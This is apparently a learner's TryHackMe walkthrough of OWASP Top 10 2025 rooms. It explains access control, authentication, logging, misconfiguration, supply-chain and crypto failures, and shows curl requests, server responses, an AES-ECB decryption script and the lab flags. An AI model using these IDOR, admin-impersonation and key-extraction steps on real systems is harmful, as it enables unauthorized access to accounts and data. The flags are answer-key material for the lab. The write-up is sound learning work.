







# TryhackMe OWASP Top 10 2025. Room: IAAA Failures

## TryhackMe OWASP Top 10 2025

### Room: IAAA Failures

in this room there are 3 of the OWASP Top 10 2025 catagories and i will go through all of them and show how to do the problems too…

but first i need to explain what IAAA is and what it stands for

IAAA (Identification, Authentication, Authorization,Accounting)

- Identification — is claiming identity it can be entering username
- authentication — is proving the identity like using password ,biometric, otp, token
- authorization — is determining what the authenticated entity is permitted to do
- accounting — is logging or tracking actions for accountability its sometimes called auditing

— simply IAAA is a core security framework model, extension of the older AAA (Authentication, Authorization, Accounting) model used in access control/networking.

#### A01:Broken Access Control

- it happens when the server does not properly enforce who can access what on every request.a common occurence of this is IDOR.
- Broken access control =the app fails to enforce who’s allowed to do/see what.
- simply when a user authenticate fine (login works), but the system doesn’t properly check whether the userspecificallyare authorized for the resource/action you’re requesting.
- IDOR (Insecure Direct Object Reference)— a specific subtype of broken access control where the app exposes a direct reference (ID, filename, key) to an internal object, and lets you access that object just by changing the reference, without verifying you’re allowed to.

```text
GET /account/profile?user_id=42     → change to 43GET /files/download?name=report_bob.pdf   → guess/enum other filenamesGET /orders/edit/9981   (as a POST, deleting someone else's order)
```

- Why it happens:sequential/predictable IDs (auto-increment PK exposed directly) + missing per-object authorization check on the backend.

when we go to the problem given the site shows the account of the user but if we change the users id on the searchbar to id= to an number b/n 1–9 we can see another users info .





simply as u see we can see anothers user account but we didn’t get access to more roles but can view the data of another users, this type of privilege escalation is calledHORIZONTALprivilege escalation.

and also as u see on the pic we got the flag for the last question

```text
flag = THM{Found.the.Millionare!}
```

#### A07: Authentication Failures

Authentication Failures happen when an application can’t reliably verify or bind a user’s identity.

#### Common vulnerabilities in this category:

- Credential stuffing / brute force— no rate limiting, no lockout, no MFA, so automated login attempts against leaked credential lists succeed
- Weak password policy— allowing “password1”, no minimum complexity/length enforcement
- Weak/predictable session tokens— session IDs that are guessable, sequential, or don’t rotate on privilege change
- Session fixation— app doesn’t regenerate session ID after login, so an attacker who set the pre-auth session ID can hijack the post-auth session
- Credentials in URL— session tokens/API keys leaked via?token=xyz(browser history, logs, referer headers)
- Missing or weak MFA— MFA not enforced, or bypassable (e.g., via password-reset flow that skips it)
- Insecure password recovery— weak security questions, predictable reset tokens, no expiry on reset links
- Session not invalidated on logout— token still valid server-side after logout
- Default credentials left active(admin/admin)

#### fix checklist

- Enforce MFA (TOTP/WebAuthn) at minimum for privileged accounts
- Rate-limit + exponential backoff + account lockout on failed logins
- Regenerate session ID on login/privilege change (mitigates fixation)
- Set session tokens: HttpOnly, Secure, SameSite=Strict
- Server-side session invalidation on logout (not just client cookie deletion)
- Password hashing: bcrypt/argon2 with proper cost factor, never MD5/SHA1 raw
- Reset tokens: single-use, short expiry (e.g. 15 min), cryptographically random
- No credential/token in URL query strings

on the problem i am asked to try to break in simply by changing admin to aDmiN and register as a user and to check if i can access the system as an admin or login as an admin.







so as displayed above i am abel to gain access on the admins account and we got the flag in this case we can send money or do what ever we want so this privilege is calledVertical privilege escalation.

```text
flag=THM{Account.confusion.FTW!}
```

#### A09: Logging & Alerting Failures

When applications don’t record or alert on security-relevant events, defenders can’t detect or investigate attacks. Good logging underpinsaccountability(being able to prove who did what, when, and from where).

Common failure modes:

- Insufficient logging— auth failures, access-control denials, input validation failures, high-value transactions not logged at all
- Logs without context— no user ID, source IP, timestamp, or request details in log entries; useless for forensics
- No alerting on suspicious patterns— logs exist but nothing monitors them in real time (e.g., 500 failed logins in a minute → silence)
- Logs stored insecurely— plaintext, no integrity protection, tamperable/deletable by an attacker who gains access (destroys the audit trail)
- Sensitive data logged— passwords, tokens, PII, credit card numbers written to logs in cleartext (creates a secondary breach surface)
- No centralized aggregation— logs scattered per-host with no SIEM, so cross-system attack patterns are invisible
- Delayed detection— breaches discovered months later via external notification, not internal monitoring (classic post-mortem pattern in real incidents)

Fix checklist:

- Log: auth success/failure, access denials, input validation failures,admin actions, high-value txns — with user_id, src_ip, timestamp, outcome
- NEVER log: passwords, session tokens, full card numbers, secrets
- Centralize logs (SIEM: ELK, Splunk, Wazuh) — don’t leave per-host
- Ship logs off-host in near-real-time (attacker who roots a box shouldn’tbe able to delete the evidence)
- Alert thresholds: failed-login bursts, privilege escalation, mass dataexport, off-hours admin access
- Retain logs per compliance requirement (often 90d-1yr min)
- Test your alerting — a rule that’s never fired might be broken, not quiet

how to do the questions



ok on the site we got a dashboard with the log of users and we can see there is 7 suspicious activity and it got breached 2 times so we need to check how and who did it , as we scroll down we can see some failed access to login but it is normal to loose the password and they did not gain access also so its okay but we got down we can see an Unauthorized login attept from the same ip with in a minute and after 5 try it got in so we have to look how he do it right . so it looks like a brute-force-attack because we can see a login attept fast and many and the only way is to do it with brute-force and after he logged it he used GET so he stole a file under /supersecretadminstuff. at last we have his ip so our work is done here .



```text
ip = 203.0.113.45/supersecretadminstuff
```

#### conclusion

i’ve just worked through the essentials ofIdentity, Authentication, Authorisation, and Accountabilityin web applications and how it can cause several of the categories of vulnerabilities discussed in OWASP Top 10:2025. The big ideas to keep:

- A01 Broken Access Control:Enforce server-side checks oneveryrequest
- A07 Authentication Failures:Enforce unique indexes on the canonical form, rate-limit/lock out brute force, and rotate sessions on password/privilege changes.
- A09 Logging & Alerting Failures:Log the full auth lifecycle (fail/success, password/2FA/role changes, admin actions), centralise logs off-host with retention, and alert on anomalies (e.g., brute-force bursts, privilege elevation).

### ROOM 2:Application Design Flaws

this room groups four related Top 10 2025 categories under the theme “weak architectural foundations” — flaws baked into design/infra rather than a single code bug. The room covers AS02: Security Misconfigurations, AS03: Software Supply Chain Failures, AS04: Cryptographic Failures, and AS06: Insecure Design. Unlike auth bypasses or broken access control which can often be patched with code changes, these design flaws are baked into the architecture from day one and often require complete architectural redesigns to fix properly.

#### AS03:Security Misconfigurations

Security misconfigurations happen when systems, servers, or applications are deployed with unsafe defaults, incomplete settings, or exposed services. These are not code bugs but mistakes in how the environment, software, or network is set up. They create easy entry points for attackers.

The application, server, framework, or platform is deployed with insecure settings — left at defaults, incompletely hardened, or unnecessarily exposed. Not a code defect; a deployment/operations defect. Covers: default credentials left active, unnecessary services/ports open, verbose error output leaking stack traces or DB errors, missing security headers (CSP, HSTS, X-Frame-Options), overly permissive cloud storage ACLs, directory listing enabled, outdated admin consoles reachable externally.

Common Patterns

- Default credentials or weak passwords left unchanged
- Unnecessary services or endpoints exposed to the internet
- Misconfigured cloud storage or permissions (S3, Azure Blob, GCP buckets)
- Unrestricted API access or missing authentication/authorisation
- Verbose error messages exposing stack traces or system details
- Outdated software, frameworks, or containers with known vulnerabilities
- Exposed AI/ML endpoints without proper access controls

How To Prevent It

- Harden default configurations and remove unused features or services
- Enforce strong authentication and least privilege across all systems
- Limit network exposure and segment sensitive resources
- Keep software, frameworks, and containers up to date with patches
- Hide stack traces and system information from error messages
- Audit cloud configurations and permissions regularly
- Secure AI endpoints and automation services with proper access controls and monitoring
- Integrate configuration reviews and automated security checks into your deployment pipeline

lets do the challenge then first do not forget to start the lab machine and the use the built in attacker machine or use linux with a try hack me open vpn, i am using a linux so after that we need to navigate to

```text
10.80.179.108 this ip on port 5002 using a browser or terminal
```

in this case i am using the terminal

```text
curl <ip_addr>
```

```text
arch@abrham\~ curl 10.80.179.108:5002<!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <meta name="viewport" content="width=device-width, initial-scale=1.0">    <title>User Management API</title>    <style>        body {            font-family: Arial, sans-serif;            max-width: 900px;            margin: 50px auto;            padding: 20px;            background: #f5f5f5;        }        .container {            background: white;            padding: 30px;            border-radius: 8px;            box-shadow: 0 2px 4px rgba(0,0,0,0.1);        }        h1 {            color: #333;        }        .endpoint {            background: #f9f9f9;            border-left: 4px solid #007bff;            padding: 15px;            margin: 15px 0;            border-radius: 4px;        }        .endpoint code {            color: #007bff;            font-weight: bold;        }        .warning {            background: #fff3cd;            border: 1px solid #ffc107;            padding: 10px;            border-radius: 4px;            margin: 20px 0;        }    </style></head><body>    <div class="container">        <h1>🔐 User Management API</h1>        <p>Welcome to the User Management API. Use the endpoints below to interact with the system.</p>                <div class="endpoint">            <strong>GET /api/user/&lt;user_id&gt;</strong><br>            <code>GET /api/user/123</code><br>            Retrieve user information by ID. User ID must be numeric.        </div>    </div></body></html>* shutting down connection #0
```

as we can see there is some info that might help as shown on the following line

```text
<div class="endpoint">            <strong>GET /api/user/&lt;user_id&gt;</strong><br>            <code>GET /api/user/123</code><br>            Retrieve user information by ID. User ID must be numeric.        </div> #this means there we can access an account using get so lets try it .
```

```text
❯ arch@abrham\~ curl 10.80.179.108:5002/api/user/123{  "email": "john@example.com",  "id": "123",  "name": "John Doe"}
```

if we can access the users account what if we try the admins using admin as username

```text
❯ arch@abrham\~ curl 10.80.179.108:5002/api/user/admin{  "debug_info": {    "flag": "THM{V3RB0S3_3RR0R_L34K}"  },  "error": "Invalid user ID format: admin. Flag: THM{V3RB0S3_3RR0R_L34K}",  "traceback": "Traceback (most recent call last):\n  File \"/app/app.py\", line 21, in get_user\n    raise ValueError(f\"Invalid user ID format: {user_id}. Flag: {FLAG}\")\nValueError: Invalid user ID format: admin. Flag: THM{V3RB0S3_3RR0R_L34K}\n"}
```

as you see we got the flag

```text
Flag: THM{V3RB0S3_3RR0R_L34K}
```

#### AS03:Software Supply Chain Failures

Software supply chain failures happen when applications rely on components, libraries, services, or models that are compromised, outdated, or improperly verified. These weaknesses are not inherent in your code, but rather in the software and tools you depend on. Attackers exploit these weak links to inject malicious code, bypass security, or steal sensitive data.

Trust placed in external code, packages, or build infrastructure without verifying its integrity. Superset of the old “Vulnerable and Outdated Components” — now includes bothknownCVEs in dependencies andunknownrisks: typosquatted/malicious packages, compromised CI/CD pipelines, unsigned artifacts, unpinned dependency versions that auto-pull malicious updates, transitive dependencies nobody audited. The attack surface is “everything you didn’t write but ship.”

Common Patterns

- Using unverified or unmaintained libraries and dependencies
- Automatically installing updates without verification
- Over-reliance on third-party AI models without monitoring or auditing
- Insecure build pipelines or CI/CD processes that allow tampering
- Poor license or provenance tracking for components
- Lack of monitoring for vulnerabilities in dependencies after deployment

How To Protect The Supply Chain

- Verify all third-party components, libraries, and AI models before use
- Monitor and patch dependencies regularly
- Sign, verify, and audit software updates and packages
- Lock down CI/CD pipelines and build processes to prevent tampering
- Track provenance and licensing for all dependencies
- Implement runtime monitoring for unusual behaviour from dependencies or AI components
- Integrate supply chain threat modelling into the SDLC, including testing, deployment, and update workflows

challenge

before starting this challenge we have to daownload a task file its help full for the task .

after that lets navigate to the ip addrress

```text
❯ curl 10.80.128.18:5003<!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <meta name="viewport" content="width=device-width, initial-scale=1.0">    <title>Data Processing Service - API Documentation</title>    <style>        * {            margin: 0;            padding: 0;            box-sizing: border-box;        }        body {            font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Oxygen, Ubuntu, Cantarell, sans-serif;            background: #f8f9fa;            color: #212529;            line-height: 1.6;        }        .header {            background: #2c3e50;            color: white;            padding: 20px 0;            box-shadow: 0 2px 4px rgba(0,0,0,0.1);        }        .header-content {            max-width: 1200px;            margin: 0 auto;            padding: 0 20px;        }        .header h1 {            font-size: 24px;            font-weight: 600;        }        .header p {            font-size: 14px;            opacity: 0.9;            margin-top: 5px;        }        .container {            max-width: 1200px;            margin: 40px auto;            padding: 0 20px;        }        .content {            background: white;            border-radius: 8px;            box-shadow: 0 2px 8px rgba(0,0,0,0.1);            padding: 40px;        }        h2 {            color: #2c3e50;            margin-bottom: 20px;            font-size: 28px;            border-bottom: 2px solid #3498db;            padding-bottom: 10px;        }        .intro {            margin-bottom: 30px;            color: #555;        }        .endpoint {            background: #f8f9fa;            border: 1px solid #dee2e6;            border-left: 4px solid #3498db;            padding: 20px;            margin: 20px 0;            border-radius: 4px;        }        .endpoint-title {            font-size: 18px;            font-weight: 600;            color: #2c3e50;            margin-bottom: 10px;        }        .method {            display: inline-block;            background: #3498db;            color: white;            padding: 4px 8px;            border-radius: 3px;            font-size: 12px;            font-weight: 600;            margin-right: 10px;        }        .method.post {            background: #27ae60;        }        .method.get {            background: #3498db;        }        code {            background: #f1f3f5;            padding: 2px 6px;            border-radius: 3px;            font-family: 'Courier New', monospace;            font-size: 14px;            color: #e83e8c;        }        .endpoint-description {            margin-top: 10px;            color: #6c757d;        }        .footer {            text-align: center;            padding: 20px;            color: #6c757d;            font-size: 14px;        }    </style></head><body>    <div class="header">        <div class="header-content">            <h1>Data Processing Service</h1>            <p>RESTful API for data transformation and processing</p>        </div>    </div>        <div class="container">        <div class="content">            <h2>API Documentation</h2>            <p class="intro">                This service provides data processing capabilities through a RESTful API.                 All endpoints accept and return JSON format.            </p>                        <div class="endpoint">                <div class="endpoint-title">                    <span class="method post">POST</span>                    <code>/api/process</code>                </div>                <div class="endpoint-description">                    Processes and transforms input data. Accepts JSON payload with a <code>data</code> field containing the text to process.                </div>            </div>                        <div class="endpoint">                <div class="endpoint-title">                    <span class="method get">GET</span>                    <code>/api/health</code>                </div>                <div class="endpoint-description">                    Returns the current health status of the API service.                </div>            </div>        </div>    </div>        <div class="footer">        <p>&copy; 2024 Data Processing Service. All rights reserved.</p>    </div></body></html>
```

as we see there are 2 options to go but we are not access the file we are here to debug it so we have to use post

```text
<div class="endpoint-title">                    <span class="method post">POST</span>                    <code>/api/process</code>                </div>
```

so before the next step we have to check what is inside the file we downloaded

```text
❯ cat app-1763304148639.pyfrom flask import Flask, render_template, request, jsonifyimport sysimport os# Import from local unverified librarysys.path.insert(0, os.path.join(os.path.dirname(__file__), 'lib'))from vulnerable_utils import process_data, format_output, debug_infoapp = Flask(__name__)@app.route('/')def index():    return render_template('index.html')@app.route('/api/process', methods=['POST'])def process():    """Process user input using third-party library"""    try:        data = request.json.get('data', '')        if not data:            return jsonify({'error': 'Missing data parameter'}), 400                # Check for debug mode         if data == 'debug':            return jsonify(debug_info())                processed = process_data(data)        formatted = format_output(processed)                return jsonify({            'result': formatted,            'status': 'success'        })    except Exception as e:        return jsonify({'error': str(e)}), 500@app.route('/api/health')def health():    """Health check endpoint"""    return jsonify({        'status': 'healthy',        'version': '1.0.0'    })if __name__ == '__main__':    app.run(host='0.0.0.0', port=5000, debug=True)
```

The Python file (app-1763304148639.py) is thesource code of the API we are attacking— it's not something we run , it's a reference so we can read how the server works and find the vulnerability.

What it tells us:

- The endpoint structure—/api/processtakes a JSON body with adatafield,/api/healthis just a status check.
- A hidden trigger— if you send"data": "debug", it callsdebug_info()instead of the normal processing path. That function might leak something (env vars, internal paths, or the flag itself) — you don't have its code, so you have to send the request and see what it returns.
- Debug mode is on(debug=True) — meaning if the app crashes, Flask shows a detailed error traceback (and potentially the interactive Werkzeug debugger) instead of a generic 500 error. That's useful for you because tracebacks leak file paths, variable names, and sometimes enough info to build an exploit.
- The real vulnerability lives invulnerable_utils.py(imported but not shown to us) — the file name alone (vulnerable_utils) is a strong hint thatprocess_data()does something unsafe with our input .

so we are not executing this.pyfile — we are reading it to plan our attack, then sending crafteddatavalues viacurl/Pythonrequeststohttp://10.80.128.18:5003/api/processto try to exploit whateverprocess_data()does under the hood.

so on the code There’s a special case: if we send exactly the string"debug", it skipsprocess_data()entirely and callsdebug_info()instead. we don't know what THAT returns either so lets try this

```text
curl -X POST http://10.80.128.18:5003/api/process \  -H "Content-Type: application/json" \  -d '{"data": "debug"}'#-X POST — HTTP method#-H "Content-Type: application/json" — tells the server to parse the body as JSON#-d '{"data": "debug"}' — the actual JSON payload, matching the data field the Flask app expects
```

```text
arch@abrham\~ ❯ curl -X POST http://10.80.128.18:5003/api/process \  -H "Content-Type: application/json" \  -d '{"data": "debug"}'{  "admin_token": "admin_token_12345",  "flag": "THM{SUPPLY_CH41N_VULN3R4B1L1TY}",  "internal_secret": "internal_secret_key_2024",  "version": "1.2.3"}
```

and we got the flag

```text
"flag": "THM{SUPPLY_CH41N_VULN3R4B1L1TY}"
```

#### AS04:Cryptographic Failures

Cryptographic failures happen when encryption is used incorrectly or not at all. This includes weak algorithms, hard-coded keys, poor key handling, or unencrypted sensitive data.

Sensitive data is inadequately protected in transit or at rest due to weak, misused, or absent cryptography. Includes: plaintext storage of passwords/PII, weak/broken algorithms (MD5, SHA1, DES), hardcoded encryption keys in source, missing TLS or TLS with weak ciphers, predictable IVs/nonces, home-rolled crypto instead of vetted libraries. Root cause is usually treating crypto as an afterthought rather than a designed requirement (key management, rotation, algorithm choice all done ad hoc).

Common Patterns

- Using deprecated or weak algorithms like MD5, SHA-1, or ECB mode
- Hard-coded secrets in code or configuration
- Poor key rotation or management practices
- Lack of encryption for sensitive data at rest or in transit
- Self-signed or invalid TLS certificates
- Using AI/ML systems without proper secret handling for model parameters or sensitive inputs

How To Prevent It

- Use strong, modern algorithms such as AES-GCM, ChaCha20-Poly1305, or enforce TLS 1.3 with valid certificates
- Use secure key management services like Azure Key Vault, AWS KMS, or HashiCorp Vault
- Rotate secrets and keys regularly, following defined crypto periods
- Document and enforce policies and standard operating procedures for key lifecycle management
- Maintain a complete inventory of certificates, keys, and their owners
- Ensure AI models and automation agents never expose unencrypted secrets or sensitive data
- The web application in this room contains a weakness of this type for you to explore.

challenge

so there is as always we use curl to check the website or can use the browser to do that in this i case i am using the terminal

```text
❯ curl 10.80.128.18:5004<!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <meta name="viewport" content="width=device-width, initial-scale=1.0">    <title>Secure Document Viewer</title>    <style>        body {            font-family: Arial, sans-serif;            max-width: 800px;            margin: 50px auto;            padding: 20px;            background: #f5f5f5;        }        .container {            background: white;            padding: 30px;            border-radius: 8px;            box-shadow: 0 2px 4px rgba(0,0,0,0.1);        }        h1 {            color: #333;        }        .encrypted-box {            background: #f9f9f9;            border: 1px solid #ddd;            padding: 15px;            border-radius: 4px;            font-family: monospace;            word-break: break-all;            margin: 20px 0;        }    </style></head><body>    <div class="container">        <h1>🔒 Secure Document Viewer</h1>        <p>This confidential document is encrypted for security. Only authorized personnel can access the decryption key.</p>        <p><em>Note: The decryption feature is currently unavailable. Contact your administrator for access.</em></p>                <div class="encrypted-box" id="encrypted">            <strong>Encrypted Document:</strong><br>            Nzd42HZGgUIUlpILZRv0jeIXp1WtCErwR+j/w/lnKbmug31opX0BWy+pwK92rkhjwdf94mgHfLtF26X6B3pe2fhHXzIGnnvVruH7683KwvzZ6+QKybFWaedAEtknYkhe        </div>    </div>        <script src="/static/js/decrypt.js"></script></body></html>
```

so there is encrypted file exposed and we can try to decrypt it but we do not know the key and the way they encrypt the file so lets find that first

there is another clue , the clue is that the html file is connected to js file and we can see that

```text
<script src="/static/js/decrypt.js"></script>
```

so lets try to access that first

```text
❯ curl 10.80.128.18:5004/static/js/decrypt.js// Document encryption utilities// Last updated: 2024-03-15(function() {    'use strict';        // Configuration    const SECRET_KEY = "my-secret-key-16";    const ENCRYPTION_MODE = "ECB";    const KEY_SIZE = 128;        // Utility functions    function formatTimestamp(date) {        return date.toISOString().replace('T', ' ').substring(0, 19);    }        function validateDocumentId(id) {        return /^[a-zA-Z0-9-_]+$/.test(id);    }        function getDocumentMetadata() {        return {            version: "1.2.3",            encryptionEnabled: false,            lastModified: formatTimestamp(new Date())        };    }        // Logging utility    function logEvent(eventType, details) {        if (typeof console !== 'undefined' && console.log) {            console.log(`[${formatTimestamp(new Date())}] ${eventType}:`, details);        }    }        // Document validation    function isValidDocumentFormat(data) {        try {            const decoded = atob(data);            return decoded.length > 0 && decoded.length % 16 === 0;        } catch (e) {            return false;        }    }        // Export to global scope if needed    if (typeof window !== 'undefined') {        window.documentUtils = {            getMetadata: getDocumentMetadata,            validateFormat: isValidDocumentFormat,            validateId: validateDocumentId        };    }        logEvent('INIT', 'Document utilities loaded');})();
```

so as we see the outcome there is the configration setting right there so we can use that to decrypt the file and also we know that the encryption is base64

Base64 tells:

- Character set is only:A-Z,a-z,0-9,+,/, and padding=at the end
- Length is always a multiple of 4 (padding=fills the gap if needed)
- Often ends in=or==
- No spaces, no other symbols

```text
const SECRET_KEY = "my-secret-key-16";    const ENCRYPTION_MODE = "ECB";    const KEY_SIZE = 128;
```

so we can use python to decrypt this so lets try that

we can create a new .py file or use normally by typing python3 on the terminal, but first we need to install the crypto after that we have to write a small script .

library

```text
pip install pycryptodome --break-system-packages
```

```text
❯ python3Python 3.14.6 (main, Jun 15 2026, 11:36:54) [GCC 16.1.1 20260430] on linuxType "help", "copyright", "credits" or "license" for more information.>>> from Crypto.Cipher import AES... import base64... ... ciphertext = base64.b64decode("Nzd42HZGgUIUlpILZRv0jeIXp1WtCErwR+j/w/lnKbmug31opX0BWy+pwK\92rkhjwdf94mgHfLtF26X6B3pe2fhHXzIGnnvVruH7683KwvzZ6+QKybFWaedAEtknYkhe")... key = b"my-secret-key-16"... cipher = AES.new(key, AES.MODE_ECB)... print(cipher.decrypt(ciphertext))... b"CONFIDENTIAL: The admin password is 'admin123'. ❯ python3Python 3.14.6 (main, Jun 15 2026, 11:36:54) [GCC 16.1.1 20260430] on linuxType "help", "copyright", "credits" or "license" for more information.>>> from Crypto.Cipher import AES... import base64... ... ciphertext = base64.b64decode("Nzd42HZGgUIUlpILZRv0jeIXp1WtCErwR+j/w/lnKbmug31opX0BWy+pwK\92rkhjwdf94mgHfLtF26X6B3pe2fhHXzIGnnvVruH7683KwvzZ6+QKybFWaedAEtknYkhe")... key = b"my-secret-key-16"... cipher = AES.new(key, AES.MODE_ECB)... print(cipher.decrypt(ciphertext))... b"CONFIDENTIAL: The admin password is 'admin123'. Flag: THM{CRYPTO_FAILURE_H4RDCOD3D_K3Y}\t\t\t\t\t\t\t\t\t">>>
```

there we got the flag

```text
Flag: THM{CRYPTO_FAILURE_H4RDCOD3D_K3Y}
```

#### AS06:Insecure Design

A flaw in thearchitecture/logic itself, present even if every line of code is implemented correctly. Distinct from an implementation bug — this is “we never designed a control for this scenario” rather than “we designed a control and coded it wrong.” Comes from skipping threat modeling, missing abuse-case analysis, and no security requirements baked in before build starts. Example: a checkout flow where the discount-code logic never considered negative-quantity submissions, so business logic itself allows a refund exploit — no injection or misconfig involved, thedesignpermitted it.

Insecure design happens when flawed logic or architecture is built into a system from the start. These flaws stem from skipped threat modelling, no design requirements or reviews, or accidental errors.

How To Design Securely

- Treat every model as untrusted until proven otherwise.
- Validate and filter all model inputs and outputs to ensure accuracy and integrity.
- Separate system prompts from user content.
- Keep sensitive data out of prompts unless absolutely needed and protect it with strict controls.
- Require human review for high-risk AI actions.
- Log model provenance, monitor behaviour, and apply differential privacy for sensitive data.
- Include AI-specific threat modelling for prompt attacks, inference risks, agent misuse, and supply chain compromise throughout the design process.
- Build threat modelling into every stage of development, not just at the start.
- Define clear security requirements for each feature before implementation.
- Apply the principle of least privilege across users, APIs, and services.
- Ensure proper authentication, authorisation, and session management across the system.
- Keep dependencies, third-party components, and supply chain sources verified and up to date.
- Continuously monitor and test the system for logic flaws, abuse paths, and emergent risks as new features or AI components are added.

#### challenge

as always lets navigate to the ip

```text
❯ curl 10.80.128.18:5005<!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <meta name="viewport" content="width=device-width, initial-scale=1.0">    <title>SecureChat - Mobile App</title>    <style>        * {            margin: 0;            padding: 0;            box-sizing: border-box;        }        body {            font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Oxygen, Ubuntu, Cantarell, sans-serif;            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);            min-height: 100vh;            display: flex;            align-items: center;            justify-content: center;            padding: 20px;        }        .container {            background: white;            border-radius: 20px;            box-shadow: 0 20px 60px rgba(0,0,0,0.3);            padding: 40px;            max-width: 500px;            width: 100%;            text-align: center;        }        .logo {            width: 80px;            height: 80px;            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);            border-radius: 20px;            margin: 0 auto 20px;            display: flex;            align-items: center;            justify-content: center;            font-size: 36px;        }        h1 {            color: #2c3e50;            margin-bottom: 10px;            font-size: 32px;        }        .subtitle {            color: #7f8c8d;            margin-bottom: 30px;            font-size: 16px;        }        .message {            background: #f8f9fa;            border-left: 4px solid #667eea;            padding: 20px;            border-radius: 8px;            margin-top: 20px;            text-align: left;        }        .message-title {            font-weight: 600;            color: #2c3e50;            margin-bottom: 10px;        }        .message-text {            color: #7f8c8d;            line-height: 1.6;        }        .download-btn {            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);            color: white;            padding: 15px 30px;            border: none;            border-radius: 10px;            font-size: 16px;            font-weight: 600;            cursor: pointer;            margin-top: 20px;            transition: transform 0.2s;        }        .download-btn:hover {            transform: translateY(-2px);        }    </style></head><body>    <div class="container">        <div class="logo">💬</div>        <h1>SecureChat</h1>        <p class="subtitle">Private messaging for mobile</p>                <div class="message">            <div class="message-title">Download the App</div>            <div class="message-text">                SecureChat is 